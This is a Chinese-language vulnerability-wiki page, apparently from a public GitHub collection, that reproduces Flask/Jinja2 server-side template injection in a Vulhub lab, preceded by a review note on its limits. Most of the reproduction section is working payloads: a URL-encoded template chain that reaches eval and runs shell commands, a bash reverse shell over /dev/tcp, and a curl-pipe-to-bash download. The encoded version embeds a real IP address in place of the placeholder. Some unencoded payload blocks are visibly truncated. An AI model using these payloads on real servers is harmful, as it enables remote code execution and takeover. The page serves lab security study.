


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：No Python/Flask/Jinja versions; application renders attacker input as template; unsandboxed accessible objects required

代码与实验材料：Arithmetic test and subclass/getter eval chain; no vulnerable view source; exact output image-only

来源证据范围：BlackHat Kettle paper and rickgray research, Vulhub attribution

- **结论使用边界（1）**：Label application SSTI rather than generic framework vulnerability; remediation absent。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：Example silently retains real remote download destination；依据：Encoded final URL contains fixed101.42.237.61 rather than your-ip。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：Python/Jinja sandbox/import-dependent chain scope omitted。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Flask Jinja2 服务端模板注入漏洞

## 漏洞描述

参考阅读：

- https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
- http://rickgray.me/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates

## 环境搭建

Vulhub 编译及运行测试环境：

```
docker-compose build
docker-compose up -d
```

访问 `http://your-ip:8000/?name={{233*233}}`，得到 54289，说明 SSTI 漏洞存在。




## 漏洞复现

获取 eval 函数并执行任意 python 代码的 POC：

```


  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  


```

URL 编码，添加以下 Payload 得到执行结果：

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```




### 反弹 shell

通过 curl 的方式反弹 shell，bash.html 文件内容：

```
/bin/bash -i >& /dev/tcp/your-ip/2333 0>&1
```

构造 Payload：

```
http://flask-ip:8000/?name=

  
  
    
      {{ b['eval']('__import__("os").popen("curl your-ip/bash.html | bash").read()') }}
    
  
  


```

URL 编码后：

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22curl%20101.42.237.61/bash.html%20|%20bash%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

浏览器访问，监听 2333 端口，成功接收反弹 shell。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
